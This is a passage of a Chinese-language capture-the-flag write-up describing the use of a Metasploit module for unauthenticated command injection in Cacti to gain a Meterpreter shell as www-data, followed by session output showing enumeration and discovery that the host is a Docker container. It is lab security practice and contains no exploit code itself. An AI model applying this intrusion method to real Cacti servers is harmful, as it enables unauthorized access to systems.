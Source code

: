 #### 方法2：metasploit

谷歌的时候发现metasploit也有exp
> <https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/>

不过最开始试了试也不行，主要是两种报错：

1. 开启nc监听的话就会报错本地端口被占用（太久不用msf人都傻了，似乎本身就不用另外开启监听……）
1. 显示利用成功但是没建立连接（报错信息如下）

        [*] Command Stager progress - 100.00% done (1118/1118 bytes)
        [*] Exploit completed, but no session was created.


*后来偶然多试几次就可以了……有点迷。看来以后出现上述报错信息的话就说明利用是成功的只是得多试几次？*

```bash
meterpreter > getuid
Server username: www-data
```


## docker容器

稍微探索了一下什么都没发现，家目录没东西，很多命令如`sudo`、`ifconfig`都没有，直接`find`命令搜user.txt也找不到flag。感觉有点不同于一般easy机器的套路。

狡猾地用Meterpreter连上去收集一下信息，发现有172.19的IP——这是docker的默认网段之一。于是直接跑去根目录看看是否有 `.dockerenv` 文件，结果果然是在docker容器里啊。

*后来看了下LinPEAS是如何收集网络信息的：查看 `/etc/hosts` 文件。*

```bash
meterpreter > sysinfo
Computer     : 172.19.0.3
OS           : Debian 11.5 (Linux 5.4.0-147-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

meterpreter > ifconfig
Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0

Interface  8
============
Name         : eth0
Hardware MAC : 02:42:ac:13:00:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.19.0.3
IPv4 Netmask : 255.255.0.0


meterpreter > ls
Listing: /
==========

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100755/rwxr-xr-x  0      fil   2023-03-21 06:49:05 -0400  .dockerenv
……
```
